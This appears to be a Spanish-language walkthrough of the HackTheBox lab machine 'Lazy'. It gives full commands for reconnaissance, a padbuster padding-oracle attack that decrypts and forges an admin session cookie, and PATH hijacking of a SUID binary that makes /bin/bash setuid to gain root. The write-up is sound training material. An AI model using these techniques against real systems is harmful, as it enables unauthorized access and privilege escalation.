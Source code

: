 Máquina "Lazy" de HackTheBox

## Características:

- Linux
- Padding oracle attack (padbuster)
- Bit flipper attack (Burp suite)
- Obtención de cookies de usuario admin
- Abuso de binarios SUID
- PATH Hijacking (escalada de privilegios)
- Enumeración externa
- Apache
- PHP
- Nivel: Penetration Tester Level 3
- Autenticación débil
- A01:2021-Broken Access Control
- Explotación de SUID
- Autenticación

## Útil para:

- eWPT
- OSWE
- OSCP

## Reconocimiento

IP: 10.10.10.18

Escaneo inicial:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.18 -oG allPorts
```

Puertos abiertos:
- 22 ssh
- 80 http

Escaneo detallado:
```bash
sudo nmap -sCV -p22,80 10.10.10.18 -oN targeted
```

Resultados:
```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

Buscamos el codename (launchpad):
```
Codename: Ubuntu Trusty
```

Análisis con whatweb:
```bash
whatweb http://10.10.10.18
```

Resultados:
```
http://10.10.10.18 [200 OK] Apache[2.4.7], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.18], PHP[5.5.9-1ubuntu4.21], 
Title[CompanyDev], X-Powered-By[PHP/5.5.9-1ubuntu4.21]
```

## Análisis de la página web

Abrimos la página:

![Página principal](/secciones/posts/imagenes/lazy/web1.png)

Tenemos login y register. Probamos con credenciales típicos e inyecciones SQL simples sin éxito.

## Fuzzing

Ejecutamos fuzzing para encontrar archivos PHP:
```bash
sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.18/FUZZ.php
```

No obtuvimos resultados relevantes.

## Análisis de cookies

Inspeccionamos la cookie de sesión, que está en cifrado CBC. Usaremos padbuster para un ataque de padding oracle:

```bash
padbuster http://10.10.10.18/index.php 'rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w' 8 -cookies 'auth=rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w'
```

Resultado:
```
*** Finished ***

[+] Decrypted value (ASCII): user=kar
[+] Decrypted value (HEX): 757365723D6B61720808080808080808
[+] Decrypted value (Base64): dXNlcj1rYXIICAgICAgICA==
```

## Confirmación de vulnerabilidad CBC

Otra forma de confirmar si se está usando CBC es con Burp Suite:
1. Configuramos el proxy
2. Recargamos la página
3. Enviamos la petición al Repeater
4. Modificamos la cookie
5. Obtenemos respuesta "invalid padding", confirmando la vulnerabilidad

## Elevación a admin

Generamos una cookie para el usuario admin:
```bash
padbuster http://10.10.10.18/index.php 'rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w' 8 -cookies 'auth=rfad9ywFSd7AuWI0syvxOp%2Bs%2B8RgEn5w' -plaintext "user=admin"
```

Resultado:
```
*** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
```

Usamos esta cookie en la sesión y accedemos como admin, donde encontramos una clave SSH privada.

## Acceso SSH

Conectamos usando la clave privada:
```bash
ssh -i id_rsa mitsos@10.10.10.18
```

Obtenemos la flag de usuario. Encontramos un archivo backup con privilegios SUID.

## Análisis del binario SUID

Ejecutamos strings en el binario:
```bash
strings backup
```

Observamos que `cat` está siendo llamado de forma relativa (no absoluta), lo que permite un PATH Hijacking.

## Explotación de PATH Hijacking

1. Creamos un archivo malicioso en /tmp:
```bash
echo 'chmod u+s /bin/bash' > /tmp/cat
chmod +x /tmp/cat
```

2. Modificamos el PATH:
```bash
export PATH=/tmp:$PATH
```

3. Ejecutamos el binario backup:
```bash
./backup
```

4. Verificamos los permisos de bash:
```bash
ls -l /bin/bash
```

5. Obtenemos una bash con privilegios root:
```bash
bash -p
```

Finalmente buscamos y obtenemos la flag de root.
 